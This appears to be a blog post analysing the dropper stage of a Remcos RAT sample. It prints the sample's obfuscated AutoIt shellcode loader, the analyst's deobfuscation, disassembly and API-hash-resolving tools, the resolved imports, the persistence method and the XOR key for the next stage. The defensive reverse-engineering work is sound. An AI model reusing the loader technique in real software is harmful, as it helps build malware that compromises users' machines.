

# Malware Analysis - RemcosRAT
So this blog is the first stage of my analysis of the Remcos RAT, I obtained this sample frmo malware bazaar.
This contains the first stage of the malware, which is essentially a dropper stage of the malware

### File Hash : 

7440ef0eba8981a16f223b10ccccd80671001258b5fd8e95e43161de32b1157d


## Detect it Easy : 


## CFF


it shows there's something hiding inside .data as the size difference highlighted here is pretty significant

Also we see AutoIt is being used to perform some form of packing/encryption, which ties in well with the suspicious .data file

Essentially autioIt is a scripting language that helps us automate keystrokes, mouse movement, application windows etc. correlated to GUI

To learn more about AUTO_IT:https://www.autoitscript.com/site/autoit/

So we go ahead and use 

## AUTO IT RIPPER

Using Auto It Ripper

### AutoIt Script :

```au3=
#NoTrayIcon
FileInstall ( "Gehman" , @TempDir & "\Gehman" , 1 )
$YZBWDFOHF = EUQOQQURZ ( FileRead ( @TempDir & "\Gehman" ) )
$GWLGSEMT = DllCall ( EUQOQQURZ ( "lfsofm43" ) , EUQOQQURZ ( "qus" ) , EUQOQQURZ ( "WjsuvbmBmmpd" ) , EUQOQQURZ ( "expse" ) , EUQOQQURZ ( "1" ) , EUQOQQURZ ( "expse" ) , BinaryLen ( $YZBWDFOHF ) , EUQOQQURZ ( "expse" ) , EUQOQQURZ ( "1y4111" ) , EUQOQQURZ ( "expse" ) , EUQOQQURZ ( "1y51" ) ) [ 0 ]
$GOKCQHWSA = DllStructCreate ( EUQOQQURZ ( "czuf!\" ) & BinaryLen ( $YZBWDFOHF ) & EUQOQQURZ ( "^" ) , $GWLGSEMT )
FileInstall ( "vehiculation" , @TempDir & "\vehiculation" , 1 )
DllStructSetData ( $GOKCQHWSA , 1 , $YZBWDFOHF )
DllCall ( "user32.dll" , "ptr" , "CallWindowProc" , "ptr" , $GWLGSEMT + 9248 , "ptr" , 0 , "ptr" , 0 , "ptr" , 0 , "ptr" , 0 )

		
Func EUQOQQURZ ( $MTMLSQXJW )
	Local $SHQXAENA = ""
	For $QHCVRWGVOP = 1 To StringLen ( $MTMLSQXJW )
		Local $ANHBBPGF = Asc ( StringMid ( $MTMLSQXJW , $QHCVRWGVOP , 1 ) )
		$SHQXAENA &= Chr ( $ANHBBPGF - ( 1 ^ $QHCVRWGVOP ) )
	Next
	Return $SHQXAENA
EndFunc
```
:::


### Python Script to partially deobfuscate 

```python3=
import re
re.compile(rEUQOQQURZ\s*\(\s*"([^"]+)"\s*\))
pattern = re.compile(r'EUQOQQURZ\s*\(\s*"([^"]+)"\s*\)')

def deobfuscate(s):
    clear_string = ''.join(chr(ord(i) - 1) for i in s)
    return clear_string
    
with open("Auoit_Remcos.au3", "r") as f:
    x = f.read()

def replacer(match):
    matched_string = match.group(1)
    deobfuscated_string = deobfuscate(matched_string)
    return f'EUQOQQURZ("{deobfuscated_string}")'

updated_file = pattern.sub(replacer, x)

with open('partially_deobfuscated_Autoit_Remcos.au3', 'w') as f2:
    f2.write(updated_file)
```

HEx string : 

### Capstone 
```python=

from capstone import Cs, CS_ARCH_X86, CS_MODE_32
hex_data = "<insert hex string>"

raw_bytes = bytes.fromhex(hex_data)
shellcode_length = len(raw_bytes)
print(f"[+] Shellcode length: {shellcode_length} bytes")

with open("output.bin", "wb") as f:
    f.write(raw_bytes)

print("[+] Wrote raw bytes to output.bin")

# Captsone Disassembly
md = Cs(CS_ARCH_X86, CS_MODE_32)
assembly_output = []

for ins in md.disasm(raw_bytes, 0x1000):
    line = f"0x{ins.address:08x}: {ins.mnemonic} {ins.op_str}"
    assembly_output.append(line)


with open("output.asm", "w", encoding="utf-8") as f:
    f.write("\n".join(assembly_output))

print("[+] Wrote disassembly to output.asm")
```


We use ida to open it now and see that around the offset of 9248 ie 0x2420 we have the name of the other file being referred to here, and we see it calling some functions to call certain dll's


Decompiling and revesing in IDA we see it is doing API hashing, it first traverses PEB etc. to get to kernel32.dll and then gets load library A which is uses for all other imports form other DLLs such as advapi32.dll, shell32.dll etc. 

we write a c script that shows it for us accordinly

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <windows.h>

unsigned int __stdcall Addr_mangler(unsigned char* Address)
{
    int v2; // [esp+24h] [ebp-Ch]
    unsigned int v3; // [esp+2Ch] [ebp-4h]
    unsigned int v4; // [esp+2Ch] [ebp-4h]

    v2 = 0;
    v3 = 0xFFFFFFFF;

    while (Address[v2])
    {
        v4 = (unsigned __int8)Address[v2] ^ v3;

        v3 =
            ((char)v4 >> 7) & 0xEDB88320 ^
            ((int)(v4 << 25) >> 31) & 0x76DC4190 ^
            ((int)(v4 << 26) >> 31) & 0x3B6E20C8 ^
            ((int)(v4 << 27) >> 31) & 0x1DB71064 ^
            ((int)(v4 << 28) >> 31) & 0x0EDB8832 ^
            ((int)(v4 << 29) >> 31) & 0x076DC419 ^
            ((int)(v4 << 30) >> 31) & 0xEE0E612C ^
            ((int)(v4 << 31) >> 31) & 0x77073096 ^
            (v4 >> 8);

        ++v2;
    }
    return ~v3;
}


uint8_t* load_file(const char* path, DWORD* out_size)
{
    FILE* f = NULL;
    fopen_s(&f, path, "rb");
    if (!f) return NULL;

    fseek(f, 0, SEEK_END);
    DWORD size = ftell(f);
    fseek(f, 0, SEEK_SET);

    uint8_t* buf = (uint8_t*)malloc(size);
    fread(buf, 1, size, f);
    fclose(f);

    *out_size = size;
    return buf;
}


DWORD rva_to_offset(DWORD rva, IMAGE_SECTION_HEADER* sec, int count)
{
    for (int i = 0; i < count; i++)
    {
        DWORD start = sec[i].VirtualAddress;
        DWORD end = start + sec[i].Misc.VirtualSize;

        if (rva >= start && rva < end)
            return sec[i].PointerToRawData + (rva - start);
    }
    return 0;
}


int main(int argc, char** argv)
{
    if (argc != 2) {
        printf("Usage: %s <dll_path>\n", argv[0]);
        return 1;
    }

    // Values to match against
    // kernel32.dll
    //uint32_t targets[] = { 0x5C856C47, 0x649EB9C1,0xF7C7AE42,0x5688CBD8,0x9CE0D4A,0x5EDB1D72,0x40F6426D,0xB0F6E8A9,0x8436F795,0x19E65DB6,0x5B4219F8,0xCEF2EDA8,0xC4B4A94D,0x8B5819AE,0xAD56B042,0xAB40BF8D,0x759903FC,0xF29DDD0C,0x5AD76A06,0xCCE95612,0x251097CC,0xFC6B42F1,0xD9B20494,0xB09315F4,0x2E50340B,0xA1EFE929,0x95C03D0,0xA7FB4165,0xCD53F5DD,0xCB1508DC,0x3FC1BD8D,0x4552D021,0xC97C1FFF,0xE058BB45,0x906A06B0,0x7A3A310,0x80AF62E1
//    };

    // advapi32.dll
    //uint32_t targets[] = { 0x5C969BF4, 0xA8403ACE, 0xD78C27BF };

    //user32.dll
    //uint32_t targets[] = { 0x89606806 };

    //shell32.dll
    //uint32_t targets[] = { 0xC7652B3F , 0x74BAEF5F }
    // 
    // shlwapi.dll;
    uint32_t targets[] = { 0xAA7B1778 };

    int target_count = sizeof(targets) / sizeof(targets[0]);
    printf("TARGET COUNT : %d\n", target_count);
    DWORD size;
    uint8_t* data = load_file(argv[1], &size);
    if (!data) {
        printf("Could not read file.\n");
        return 1;
    }

    IMAGE_DOS_HEADER* dos = (IMAGE_DOS_HEADER*)data;
    if (dos->e_magic != IMAGE_DOS_SIGNATURE) {
        printf("Invalid MZ.\n");
        return 1;
    }

    IMAGE_NT_HEADERS* nt = (IMAGE_NT_HEADERS*)(data + dos->e_lfanew);
    if (nt->Signature != IMAGE_NT_SIGNATURE) {
        printf("Invalid PE.\n");
        return 1;
    }

    IMAGE_FILE_HEADER* fh = &nt->FileHeader;
    IMAGE_OPTIONAL_HEADER* opt = &nt->OptionalHeader;

    IMAGE_SECTION_HEADER* sections = (IMAGE_SECTION_HEADER*)
        ((BYTE*)&nt->OptionalHeader + fh->SizeOfOptionalHeader);

    DWORD exp_rva = opt->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
    if (!exp_rva) {
        printf("No export table.\n");
        return 1;
    }

    DWORD exp_off = rva_to_offset(exp_rva, sections, fh->NumberOfSections);
    IMAGE_EXPORT_DIRECTORY* exp = (IMAGE_EXPORT_DIRECTORY*)(data + exp_off);

    DWORD name_count = exp->NumberOfNames;

    DWORD funcs_rva = exp->AddressOfFunctions;
    DWORD names_rva = exp->AddressOfNames;
    DWORD ords_rva = exp->AddressOfNameOrdinals;

    DWORD funcs_off = rva_to_offset(funcs_rva, sections, fh->NumberOfSections);
    DWORD names_off = rva_to_offset(names_rva, sections, fh->NumberOfSections);
    DWORD ords_off = rva_to_offset(ords_rva, sections, fh->NumberOfSections);

    DWORD* funcs = (DWORD*)(data + funcs_off);
    DWORD* names = (DWORD*)(data + names_off);
    WORD* ords = (WORD*)(data + ords_off);

    printf("\nScanning exports of %s\n", argv[1]);
    printf("-----------------------------------------------\n");

    for (DWORD i = 0; i < name_count; i++)
    {
        DWORD name_rva = names[i];
        DWORD name_off = rva_to_offset(name_rva, sections, fh->NumberOfSections);

        unsigned char* name = (unsigned char*)(data + name_off);

        WORD ordinal = ords[i];
        DWORD func_rva = funcs[ordinal];

        uint32_t hv = Addr_mangler(name);

        for (int t = 0; t < target_count; t++)
        {
            if (hv == targets[t])
            {
                printf("[MATCH] %-35s RVA=0x%08X Hash=0x%08X\n",
                    name, func_rva, hv);
            }
        }
    }

    free(data);
    return 0;
}
```

This gets us

C:\Users\A\source\repos\Remcos_Exports_Extractor\x64\Release>Remcos_Exports_Extractor.exe C:\Windows\System32\kernel32.dll
TARGET COUNT : 37

Scanning exports of C:\Windows\System32\kernel32.dll
-----------------------------------------------
| Function Name             | RVA          | Hash        |
|---------------------------|--------------|-------------|
| CloseHandle               | 0x00056E40   | 0xB09315F4  |
| CreateDirectoryW          | 0x000570B0   | 0x759903FC  |
| CreateFileW               | 0x000570F0   | 0xA1EFE929  |
| CreateProcessW            | 0x0003C680   | 0x5C856C47  |
| CreateThread              | 0x00033100   | 0x906A06B0  |
| ExitProcess               | 0x000418A0   | 0x251097CC  |
| ExitThread                | 0x000AB7D7   | 0x80AF62E1  |
| GetCommandLineW           | 0x00040F00   | 0xD9B20494  |
| GetCurrentThread          | 0x00023510   | 0x19E65DB6  |
| GetFileAttributesW        | 0x00057310   | 0xC4B4A94D  |
| GetFileSize               | 0x00057330   | 0xA7FB4165  |
| GetFileSizeEx             | 0x00057340   | 0x8B5819AE  |
| GetModuleFileNameW        | 0x0003C580   | 0xFC6B42F1  |
| GetModuleHandleW          | 0x0003B450   | 0x4552D021  |
| GetProcAddress            | 0x00033C70   | 0xC97C1FFF  |
| GetProcessHeap            | 0x00023F90   | 0x40F6426D  |
| GetTempPathW              | 0x00057410   | 0x07A3A310  |
| GetThreadContext          | 0x0003C6F0   | 0x649EB9C1  |
| GetTickCount              | 0x00018600   | 0x5B4219F8  |
| HeapAlloc                 | 0x000AE8C4   | 0x5EDB1D72  |
| HeapFree                  | 0x00024980   | 0xB0F6E8A9  |
| IsDebuggerPresent         | 0x0003D9A0   | 0x8436F795  |
| IsWow64Process            | 0x00038290   | 0x2E50340B  |
| LoadLibraryA              | 0x00042D80   | 0x3FC1BD8D  |
| LoadLibraryW              | 0x0003F7C0   | 0xCB1508DC  |
| QueryPerformanceCounter   | 0x00023FB0   | 0xAD56B042  |
| ReadFile                  | 0x000574B0   | 0x095C03D0  |
| ReadProcessMemory         | 0x0003B830   | 0xF7C7AE42  |
| SetThreadContext          | 0x000450F0   | 0x5688CBD8  |
| Sleep                     | 0x00031980   | 0xCEF2EDA8  |
| TerminateProcess          | 0x000425A0   | 0xAB40BF8D  |
| VirtualAlloc              | 0x00033C90   | 0x09CE0D4A  |
| VirtualFree               | 0x00035BF0   | 0xCD53F5DD  |
| WaitForSingleObject       | 0x00057030   | 0xE058BB45  |
| WriteFile                 | 0x000575C0   | 0xCCE95612  |
| lstrcatW                  | 0x00035110   | 0xF29DDD0C  |
| lstrcpyW                  | 0x00033D10   | 0x5AD76A06  |


C:\Users\A\source\repos\Remcos_Exports_Extractor\x64\Release>Remcos_Exports_Extractor.exe C:\Windows\System32\advapi32.dll
TARGET COUNT : 3

Scanning exports of C:\Windows\System32\advapi32.dll
-----------------------------------------------
| Function Name           | RVA        | Hash        |
|-------------------------|------------|-------------|
| CryptAcquireContextW    | 0x000322A0 | 0x5C969BF4  |
| CryptGenRandom          | 0x000340C0 | 0xD78C27BF  |
| CryptReleaseContext     | 0x00034200 | 0xA8403ACE  |


C:\Users\A\source\repos\Remcos_Exports_Extractor\x64\Release>Remcos_Exports_Extractor.exe C:\Windows\System32\user32.dll
TARGET COUNT : 1

Scanning exports of C:\Windows\System32\user32.dll
-----------------------------------------------
| Function Name | RVA        | Hash        |
|---------------|------------|-------------|
| GetCursorPos  | 0x00050C70 | 0x89606806  |


C:\Users\A\source\repos\Remcos_Exports_Extractor\x64\Release>Remcos_Exports_Extractor.exe C:\Windows\System32\shell32.dll
TARGET COUNT : 2

Scanning exports of C:\Windows\System32\shell32.dll
-----------------------------------------------
| Function Name       | RVA        | Hash        |
|---------------------|------------|-------------|
| CommandLineToArgvW  | 0x0015FEB0 | 0x74BAEF5F  |
| SHGetFolderPathW    | 0x00158090 | 0xC7652B3F  |


Scanning exports of C:\Windows\System32\shlwapi.dll
-----------------------------------------------
| Function Name | RVA        | Hash        |
|---------------|------------|-------------|
| PathCombineW  | 0x0000F100 | 0xAA7B1778  |


But these function addresses that are properply calculated with the RVA + base adddress are properly filled into an array which is what is returned, and in the array it's all a bit in a different order

So the final function array is this

### Function Array

| Index | Function               |  A value            |
|-------|-------------------------|-----------|
| 0     | CreateProcessW          |a1
| 1     | GetCursorPos           |a2
| 2     | Sleep                  |a3
| 3     | GetTickCount           |
| 4     | GetThreadContext       |
| 5     | SetThreadContext       |
| 6     | VirtualAlloc           |
| 7     | PathCombineW
| 8     | GetTempPathW           |
| 9     | lstrcpyW               |
| 10    | lstrcatW               |
| 11    | CreateDirectoryW       |
| 12    | WriteFile              |
| 13    |  SHGetFolderPathW      |
| 14    | HeapAlloc              |
| 15    | CommandLineToArgvW     |
| 16    | GetProcessHeap         |
| 17    |                         |
| 18    | HeapFree               |
| 19    | GetFileAttributesW     |
| 20    | GetFileSizeEx          |
| 21    | QueryPerformanceCounter|
| 22    | IsDebuggerPresent      |
| 23    | GetCurrentThread       |
| 24    |                         |
| 25    |                         |
| 26    | TerminateProcess       |
| 27    | ExitProcess            |
| 28    | ReadProcessMemory      |
| 29    | GetModuleFileNameW     |
| 30    | GetCommandLineW        |
| 31    |                         |
| 32    | CloseHandle            |a28
| 33    | IsWow64Process         |a29
| 34    | CreateFileW            |a30
| 35    | ReadFile               | a31
| 36    | GetFileSize            | a32
| 37    | VirtualFree            | a33
| 38    | LoadLibraryA           |
| 39    | LoadLibraryW           |
| 40    | CryptAcquireContextW   |
| 41    | CryptGenRandom         |
| 42    | CryptReleaseContext   |
| 43    | GetModuleHandleW       |
| 44    | GetProcAddress         |
| 45    | WaitForSingleObject    |
| 46    | CreateThread           |
| 47    | ExitThread             |


VB script in startup folder, to run isochronal

Temp has gdehman and vehiculation

C:\Users\Ryuzaki\AppData\Local\porcelainization has isochronal

## Vehicualtion  Decrypt

```python=
key = b'BTXMXI3AJ3ZMW7CF'
decrypted_veh_bytes = b''
for i,j in zip(veh_bytes, cycle(key)):
    decrypted_veh_bytes += xor(i,j)
# we get an MZ file
with open('vehiculation_decryped', 'wb') as w:
    w.write(decrypted_veh_bytes)
```

004C476BE056BD3794B2EE1F460C00A5 - License code


In the next part we shall go ahead and analyse the decrypted VEH bytes that contain the essence of the malware